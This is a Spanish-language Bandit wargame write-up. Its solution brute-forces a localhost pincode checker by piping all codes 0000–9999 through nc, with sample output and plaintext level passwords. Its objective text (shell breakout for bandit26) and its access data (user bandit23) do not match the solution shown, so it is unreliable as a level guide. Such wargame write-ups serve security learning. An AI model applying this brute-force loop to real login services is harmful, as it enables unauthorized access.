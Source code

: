 # Level 25

## Objetivos
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Datos de acceso 
bandit23 <-UserName
 VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar<-Password

## Solución 
```bash
bandit24@bandit:~$ nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.

...

Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.


```

ó

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```
## Notas dicionales 
Podemos hacer una secuencia de esta forma {0000..9999} no imprimira números de cuatro digitos podemos realizar un for haciendo con esa secuancia y el comando "nc localhost 30002" 

podemos agregar al final  el comando "grep -v Wrong" para que nos filtre las respuestas incorrectas y quedarnos solo con el password